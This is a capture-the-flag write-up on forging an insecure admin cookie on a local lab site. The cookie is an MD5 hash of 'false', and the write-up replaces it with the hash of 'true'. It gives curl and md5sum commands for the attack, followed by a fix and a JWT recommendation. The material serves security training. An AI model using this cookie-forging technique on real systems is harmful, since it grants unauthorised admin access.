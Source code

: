 # Insecure admin cookie authentication

## 📖 Vulnerability Explanation
The token used to authenticate as an admin in the page is an md5 hash. If we crack it, the value is "false". We can generate a new token with the md5 hash of the string "true" to authenticate as the admin user.

## ⚙️ Exploitation Process
Get the hash and crack it. You can use system tools, such as ```john``` or ```hashcat```, or online services. We used ```https://crackstation.net/``` and it revealed the value for the md5 hash was the string "false".

- We can retrieve the token value using curl:
```
curl -s -I 'http://localhost:9090/index.php'
```
---
- Check the hash value:
![](./CrackStation.png)
---
- Generate the new hash for the token:
```
echo -n 'true' | md5sum
```
---
- Setting the value to the hash of the string "true" gives us the flag:
```
curl -s -H 'Cookie: I_am_admin=b326b5062b2f0e69046810717534cb09' 'http://localhost:9090/index.php' | grep Flag
```

## 🧰 Additional Resources
We used ```https://crackstation.net/``` to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
The server should set the cookie for admin users after authentication. The value should not be a static hash, but a cookie controlled by the system with an expiry date.

## ☝️🤓 Advanced explanation
We advise using a **Json Web Token (JWT)** to protect the authentication system and keep the admin check implementation. This token would be signed by the server and it would also contain information about the user, such as their permissions.
This approach requires a secret to sign the tokens, but it requires less computational resources, as it avoids storing cookies in memory and querying the database to check if a user is an admin.

The json content of the JWT would look like this: 
```
{
    "email": "svetlana@BornToSec.com",
    "isAdmin": true
}
```